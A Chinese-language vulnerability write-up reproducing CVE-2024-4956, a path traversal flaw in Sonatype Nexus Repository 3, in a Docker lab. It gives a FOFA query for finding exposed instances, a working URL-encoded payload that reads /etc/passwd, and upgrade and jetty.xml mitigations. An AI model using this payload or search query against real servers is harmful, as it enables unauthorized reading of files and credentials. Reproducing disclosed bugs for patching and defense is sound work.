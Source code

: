 #  Sonatype Nexus Repository3 任意文件下载漏洞(CVE-2024-4956)   
 船山信安   2024-08-17 05:00  
  
## 0x01 组件介绍  
  
Sonatype Nexus Repository 3（通常简称为Nexus3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等），它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化  
```
fofa语法：app="Nexus-Repository-Manager"
```  
## 0x02 漏洞描述  
  
2024年5月20日，Sonatype Nexus Repository 3中修复了一个路径遍历漏洞，该漏洞漏洞编号为：CVE-2024-4956Sonatype Nexus Repository 3.0.0 - 3.68.0版本中存在路径遍历漏洞，未经身份验证的威胁者可构造恶意URL下载目标系统上的任意文件，包括Nexus Repository 应用程序范围之外的系统文件，成功利用该漏洞可能导致应用程序源代码、配置和关键系统文件等敏感信息泄露。  
## 0x03 影响版本  
  
Sonatype Nexus < 3.68.1  
## 0x04 环境搭建  
#### 0x01 下载  
  
目前这个环境可以，使用docker的话有现成的，咱们直接用vulhub官方搭建的，版本还是挺多选择的，我们选择个最近的版本3.68.0，一键搭建！！  
  
docker pull sonatype/nexus3:3.68.0-java8  
  
下载完成后一键启动，使用以下命令  
  
docker run -p 8081:8081 sonatype/nexus3:3.68.0-java8  
  
注意，不使用-d是方面在前台看是否启动成功，这个的启动时间比较久，需要5，6分钟左右，方便看是否有报错的地方![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMs6pzKSxH8Lx6TRLlD95F5GDA796TiaDnmiaPibVgS36lKrJqKdGS5kuXxyL6C4uParLdeM7uoTeA1Q/640?wx_fmt=jpeg&from=appmsg "")  
  
  
看到有以上相关的日志信息时，即为环境搭建成功  
#### 0x02 访问环境  
  
按照第一步安装的的环境，在浏览器中打开http://192.168.19.153:8081（默认端口都是8081)  
## 0x05 漏洞原理  
  
Sonatype Nexus Repository 3.0.0 - 3.68.0版本中存在路径遍历漏洞，未经身份验证的威胁者可构造恶意URL下载目标系统上的任意文件，包括Nexus Repository 应用程序范围之外的系统文件，成功利用该漏洞可能导致应用程序源代码、配置和关键系统文件等敏感信息泄露。  
## 0x06 漏洞验证  
  
官方的链接（相关漏洞及利用介绍）  
  
加上官方还有提到了“public”，还以为payload应该是这样的，burp发送  
```
/public/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMs6pzKSxH8Lx6TRLlD95F5NufPORuKNjIrAfchuZRbDnNQGbBkibz9A0VYEo2hA33bM5zVVFUNYGQ/640?wx_fmt=jpeg&from=appmsg "")  
  
400,server还是Server: Jetty。查一查原来是被Jetty服务器给拦截了，试了一下其他绕过的方式，也没找到  
  
找到了利用的正经的poc了  
```
/%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd（注意：少一个%2F都不行）
解下码看看：////////../../../../../../../etc/passwd
```  
  
burp发送  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicMs6pzKSxH8Lx6TRLlD95F5kMwoOuIiaYnjWevdLQRWZB3Cm25OSJ8XEb16QNnLGVB8gfxaWJXlosg/640?wx_fmt=jpeg&from=appmsg "")  
  
数据读出来了，Server也对上了：  
  
Server: Nexus/3.68.0-04，路径上也不用使用public  
  
## 0x07 漏洞影响  
  
通过以上过程，我们可以看到该漏洞危害极大，且该漏洞利用难度也极低，可以读取任意文件，成功利用该漏洞可能导致应用程序源代码、配置和关键系统文件等敏感信息泄露。  
## 0x08 修复建议  
  
1.升级版本  
  
目前该漏洞已经修复，受影响的用户可升级到 Sonatype Nexus Repository OSS/Pro 3.68.1或更高版本。  
  
下载链接：  
  
https://help.sonatype.com/en/download.html  
  
2 临时措施  
  
无法立即升级的用户，可通过编辑/etc/jetty/jetty.xml 并删除文件中的以下行来缓解该漏洞：  
  
<Set name="resourceBase"><Property name="karaf.base"/>/public</Set>  
  
重启 Nexus Repository，使更改生效。  
## 0X09 参考链接  
  
https://security.snyk.io/vuln/SNYK-JAVA-ORGSONATYPENEXUS-6861919  
  
https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16  
  
https://support.sonatype.com/hc/en-us/articles/29412417068819-Mitigations-for-CVE-2024-4956-Nexus-Repository-3-Vulnerability  
  
转自:https://zone.huoxian.cn/d/2913-sonatype-nexus-repository3-cve-2024-4956  
  
